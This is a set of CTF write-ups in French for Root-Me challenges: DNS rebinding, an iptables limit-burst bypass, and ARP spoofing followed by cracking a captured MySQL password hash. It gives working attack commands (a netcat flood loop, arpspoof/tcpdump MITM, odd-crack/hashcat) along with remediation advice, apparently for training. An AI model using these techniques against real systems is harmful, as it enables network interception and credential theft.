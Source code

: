 # HTTP - DNS Rebinding
## TTL=0

On est face à un serveur qui va récupérer notre URL et on nous donne le code source qu'il utilise.

Ce code nous donne plusieurs informations :

- une page admin accessible que si L'IP de la requête provient du localhost, et auquel on doit se connecter pour réussir le challenge et récupérer le flag

- On remarque dans le code python qu'il y a une première requête DNS pour récupérer l'IP de l'url entrée par l'utilisateur avec la fonction valid_fqdn.

- Et il y a une seconde requête DNS pour charger la page et l'afficher à l'utilisateur avec la fonction request.get .

On s'aidant du titre et de l'indice (TTL=0) on se rend compte que l'on peut modifier l'url entre la première requête que le site vérifie et la remplacer par le localhost(127.0.0.1) lors du chargement de la page ce qui va nous permettre de charger la page admin en localhost, en passant la sécurité avec n'importe quelle IP publique.

- Pour cela j'ai utiliser le site https://lock.cmpxchg8b.com/rebinder.html, qui va nous permettre de switch d'IP avec un très faible ttl.
- Je remplis les deux champs avec un ip publique (ex: 1.1.1.1) et le localhost.
- Je récupère l'url créer par le site et je la met dans l'url grabber suivi du port et de /admin pour le répertoire (http://url:54022/admin)
- On essaye plusieurs fois jusqu'à ce que le site nous charge la page admin.


## Remédiation

Faire le check qui contrôle l'IP et la variable request.get() dans la même fonction pour que l'url reste la même et ne change pas entre les 2 requêtes DNS.

<br/>
<br/>

# Netfilter - erreurs courantes

Pour ce challenge, on arrive sur une page web dans laquelle il y a un lien pour accéder au panneau d'administration qui va être l'endroit où l'on récupérera le flag.
Pour l'instant il nous est inaccessible quand on essaye d'y accéder.
On remarque  que l'administrateur a laissé un fichier contenant les règles du pare-feu qui nous bloque l'accès.

On peut entrevoir plusieurs possibilités pour la résolution de ce challenge comme la whitelist ou encore un proxy mais sans succès.
Ce sont ces trois lignes qui vont nous intéresser pour accomplir ce challenge.

```
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j LOG --log-prefix 'FW_FLOODER '
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP

IP46T -A INPUT-HTTP -j ACCEPT
```

Le paramètre limit-burst du seau à jetons est fixé initialement à 20. Chaque paquet qui établit une correspondance avec la règle consomme un jeton.
On se rend compte que la règle qui droppe les paquets ne les droppent que suivant une certaine limite jusqu'à 20 donc si on envoie plus de paquets que cette limite, en l'occurence 20 packets, on passera à travers la règle pour atteindre la suivante qui sera la règle ACCEPT.
On peut faire cela avec un rapide ligne de commande:
```
for i in {1..20}; do echo | nc challenge01.root-me.org 54017 & done ; curl -i http://challenge01.root-me.org:54017/  
```

## Remédiation

Sur les deux lignes vulnérables on va remplacer **--limit-burst 20** par **--limit-burst 20/second** pour que les jetons du paramètre limit-burst n'atteignent pas 0 avec les requêtes faites par l'utilisateur et que donc les requêtes suivantes ne poursuivent leurs route et atteignent la ligne suivante **IP46T -A INPUT-HTTP -j ACCEPT**.

<br/>
<br/>

# ARP Spoofing - Écoute active

Quand on se connecte sur la machine donné dans l'énoncé on remarque qu'elle est vide donc on va tout d'abord installer toutes les dépendances nécessaires à la réalisation du challenge.

```
apt install iputils-ping -y
apt install iproute2 -y
apt install tcpdump -y
apt install nmap -y
apt install dsniff -y
```

On fait une rapide commande (ip a) pour connaître notre ip et le réseau sur lequel on est notre machine est connecté.
On poursuit ensuite par un scan nmap pour repérer les autres machines connecté sur le réseau.
```
nmap -sn 172.18.0.0/16
Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.2)
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
```

On voit en faisant un scan de port qu'il n'y a rien sur la machine client mais que le port 3306 pour MySQL est ouvert sur la machine contenant la base de données.
```
nmap -Pn -sV 172.18.0.4

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.7.41
```

La prochaine étape va être de faire une attaque MITM(man in the middle) en faisant deux requêtes d'arp spoofing grâce à dsniff pour se faire passer pour le client auprès de la base de données, et, en se faisant passer pour la base de données auprès du client.
On recevra donc tous les packets que les deux machines infectées se transmettront et on pourra récupérer avec tcpdump ces échanges sous la forme d'un fichier pcap pour l'éxaminer plus tard avec Wireshark.

```
arpspoof -i eth0 -t 172.18.0.2 -r 172.18.0.4

arpspoof -i eth0 -t 172.18.0.4 -r 172.18.0.2

tcpdump -i eth0 -s 0 -w capture.pcap host 172.18.0.2 and host 172.18.0.3
```

Après avoir ouvert la fichier dans Wireshark on trouve au début de l'échange une 'Login Request' de l'utilisateur root vers la base de données dbflag et dont la réponse de la requête envoyé par la base de données contiendra la première partie du flag :
```
text: first part of the flag: l1tter4lly_4_c4ptur3_th3_fl4g
```

On remarque aussi que la base de données utilise comme authentification plugin mysql_native_password.

On récupère sur la trame nommée server greeting les deux parties du sel que l'on va convertir en hexadécimal qui nous servira pour trouver le mot de passe de l'utilisateur root.
```
echo -n '76X\023\n\016R%1"<+Nf;L\022r\037\017' | xxd -p
373658130a0e522531223c2b4e663b4c12721f0f
```
On va assembler le sel avec le mot de passe récupéré dans la trame de la connexion du client puis on va utiliser odd-crack (possible aussi avec hashcat: option -m 11200) qui est un repository github (https://github.com/kazkansouh/odd-hash.git) qui va nous permettre de déchiffrer le mot de passe.
```
odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:373658130a0e522531223c2b4e663b4c12721f0f rockyou.txt 8b688889fcd8259818adf02f87bc028b8927b742

found heyheyhey=8b688889fcd8259818adf02f87bc028b8927b742
```

On obtient alors le flag final: **l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey**


## Remédiation

1 -Utiliser une table de routage static pour se protéger de l'arp poisoning.

arp -s IP MACADDRESS

```
arp -a
db.arp-spoofing-dist-2_default (172.18.0.3) at 02:42:ac:12:00:03 [ether] on eth0
? (172.18.0.1) at 02:42:13:8a:31:17 [ether] on eth0
client.arp-spoofing-dist-2_default (172.18.0.2) at 02:42:ac:12:00:02 [ether] on eth0


Pour configurer la table arp de façon statique pour la machine contenant la base de données on ferait:

arp -s 172.18.0.2 02:42:ac:12:00:02
arp -s 172.18.0.1 02:42:13:8a:31:17
```

2 - Changer de plugins d'authentification. Remplacer par exemple mysql_native_password qui utilise SHA1 pour hasher le mot de passe par caching_sha2_password qui utiliser sha256 pour hasher les mots de passes et qui contient de nombreuses autres fonctionnalités comme la mise en cache côté serveur pour de meilleures performances.

3 - Utiliser un mot de passe plus fort en utilisant des majuscules, chiffres, caractères spéciaux.